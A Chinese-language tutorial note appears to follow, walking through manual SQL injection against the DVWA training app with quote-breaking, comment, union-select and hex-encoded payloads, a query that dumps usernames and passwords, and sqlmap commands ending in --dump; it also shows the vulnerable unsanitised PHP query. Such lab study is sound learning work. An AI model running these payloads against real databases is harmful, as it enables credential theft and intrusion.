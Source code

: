 ## 4 sql 注入
---
### 数据库查询

    mysql -uroot -p123123
    show databases;
    use dvwa;
    show tables;

    select * from users;
    
    union select 联合查询
    group_concat() 组合
    
    select 1，2   增加行

---
### information_schema 自带数据库。

    表 schemata 存着mysql的所有数据库名字。
    
    表 tables 存着mysql所有数据库的表名。
    
    表 COLUMN 存着表中所有 数据库表 的 字段

----

### sql注入 手动

![img.png](img/img21.png)

拦截报文，在id=1 后面加上 '   发包

可以看到 Response 报错，并返回错误语句。

    SELECT first_name, last_name FROM users WHERE user_id = '1'';

查看网页源码

    // Get input
	$id = $_REQUEST[ 'id' ];

	// Check database
	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

修改报文：

    id = 1'#    然后 crtl + u 转码
    id = 1'%23

重新发包，错误消失。  原因是 # 注释掉了后面 '

    注释方式
    #
    -- 
    /**/   ->  注入方式 /*! select databases()*/;

如果在命令行中测试，则需要增加  ; 

因为 # 会注释掉后面的所有字符。

![img.png](img/img22.png)

### 加 ‘ 的目的是隔开字符串，注入后续的命令。 如： and 1 = 1

    id=1'and+1%3d1+%23

使用order by 试探出字段数为2。所以联合查询，select 1,2。 1,2 内嵌查询数据库与用户。

![img.png](img/img23.png)

    id =1' union select (select database()),(select user()) #
    id=1'union+select+(select+database()),(select+user())%23

---

安装hackbar插件。

右键选择 sql注入， 添加hex（）。

![img.png](img/img24.png)

得到结果，ASCII解码。

![img.png](img/img25.png)

同样，可使用此功能查询表名（输入数据库名称）。

查询列名。 添加一下命令。

    and TABLE_SCHEMA = 0x64767761;     dvwa ASCII编码 64767761

结果如下，ASCII解码

![img.png](img/img26.png)

查询数据。

    SELECT+GROUP_CONCAT(user,":",password+SEPARATOR+0x3c62723e)+FROM+dvwa.users

![img.png](img/img27.png)
---
### sqlmap自动化注入

brup suit 保存数据报文 txt。

自动化注入。

    python sqlmap.py -r 路径 --batch 

![img.png](img/img28.png)

id 参数存在注入 GET 请求

注入类型 布尔类型，报错，延时，联合注入。

    python sqlmap.py -r 路径 --batch --dbs

    python sqlmap.py -r 路径 --batch -D dvwa -T user --column

    python sqlmap.py -r 路径 --batch -D dvwa -T user -C "users,password" --dump

![img.png](img/img29.png)

![img.png](img/img30.png)
